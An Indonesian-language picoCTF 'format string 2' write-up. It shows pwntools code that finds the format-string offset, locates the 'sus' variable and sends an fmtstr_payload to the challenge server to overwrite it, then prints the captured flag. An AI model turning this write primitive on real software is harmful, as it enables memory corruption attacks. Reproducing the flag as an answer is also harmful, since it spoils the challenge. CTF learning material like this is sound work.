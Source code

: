 ﻿## CTF Name: format string 2 (Medium)

### Description:
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must _change_ data on the stack!

### Hint:
pwntools are very useful for this problem!

### Solution:
Untuk menyelesaikan tantangan ini langkah awal yang saya lakukan adalah menganalisa source code nya terlebih dahulu pada vuln.c saya menemukan bahwa cara untuk mendapatkan flagnya harus membuat sus menjadi 0x67616c66 

![vuln.c](./documentation/image.png)

berdasarkan hasil analisa saya ini saya mendapatkan strategi untuk mengubah sus yang sebelumnya itu 0x21737573 menjadi  0x67616c66 cara yang saya lakukan adalah membuat script payload untuk mengubah nilai sus menggunakan library python yaitu pwn berdasarkan hint yang diberikan dengan langkah sebagai berikut:

 1. **Menemukan Offset Parameter Format String**
 
	Langkah pertama adalah menentukan offset parameter pada stack yang dapat kita kontrol menggunakan payload format string. Offset inilah yang menunjukkan posisi di stack di mana kita dapat menulis data. Menggunakan pwntools, kita dapat secara otomatis mencari offset dengan memanfaatkan kelas FmtStr dan sebuah fungsi yang menjalankan binary secara lokal:
	```
	def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l

	offset = FmtStr(send_payload).offset
	info(f"{offset=}")
	```
	Di sini, fungsi send_payload menjalankan binary lokal, mengirim payload, dan mengembalikan outputnya. FmtStr kemudian mencari nilai offset yang benar untuk eksploitasi write.
	
2. **Mendapatkan Alamat Target**

	Setelah offset ditemukan, kita perlu mengetahui alamat dari variabel target yaitu simbol **sus** yang akan diubah nilainya. Dengan membuka binary menggunakan binary menggunakan pwntools:
	 ```
	 elf = context.binary = ELF('./vuln')
	info(f"{elf.symbols['sus']=}")
	 ```
	 informasi ini memberikan alamat memori dari **sus** yang nantinya akan digunakan untuk menulis **"flag"**.

4. **Membangun dan mengirim payload eksploitasi**
	
 	Dengan mengetahui offset dan alamat target, kita dapat membuat payload menggunakan fungsi fmtstr_payload dari pwntools. Payload ini dirancang untuk menulis nilai  0x67616c66 ke alamat sus.
	```
	p = remote('rhea.picoctf.net', 54471)
	p.sendline(fmtstr_payload(offset, {elf.symbols['sus']: 0x67616c66}))
	info(p.recvall().decode())
	p.close()
	```
	payload yang dibuat oleh pwntools itu bakal dikirimkan menggunakan fungsi remote untuk membuka koneksi ke server  dan jika eksploitasi berhasil, output yang berisi flag akan diterima

5. Menjalankan script payload yang sudah dibuat dengan python3
	```
	python3 script.py
	```
	setelah script python itu dijalankan payload akan dijalankan dari hasil output nya ini:

	![output script.py](./documentation/2.png)
		
	dapat dilihat bahwa payload berhasil dijankan dan mendapatkan offset nya yaitu 14 dan berhasil mengubah alamat sus menjadi alamt flag dan akhirnya flagnya didapatkan yaitu:
	**picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}**
